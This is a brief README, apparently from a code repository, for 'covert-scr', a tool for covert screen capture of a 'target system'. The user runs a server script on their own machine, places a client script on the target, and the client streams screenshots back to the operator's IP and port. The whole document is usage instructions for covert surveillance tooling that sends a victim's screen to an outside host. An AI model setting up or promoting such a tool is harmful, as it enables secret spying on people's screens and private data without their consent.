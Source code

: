 # covert-scr
Covert "sudoless" screensharing. Requires `scrot` to be installed on the target system.
## Usage
1. `./scrserver.sh interface lport`  
interface e.g. `wlan0`    
lport e.g. `12345`   
Note down the IP address of your interface.    
2. Place `scrclient.sh` on the target system.
3. `./scrclient.sh lhost lport`   
lhost is your IP.
lport is the port of your choice on your machine.
4. The stream should've opened on your browser automatically.
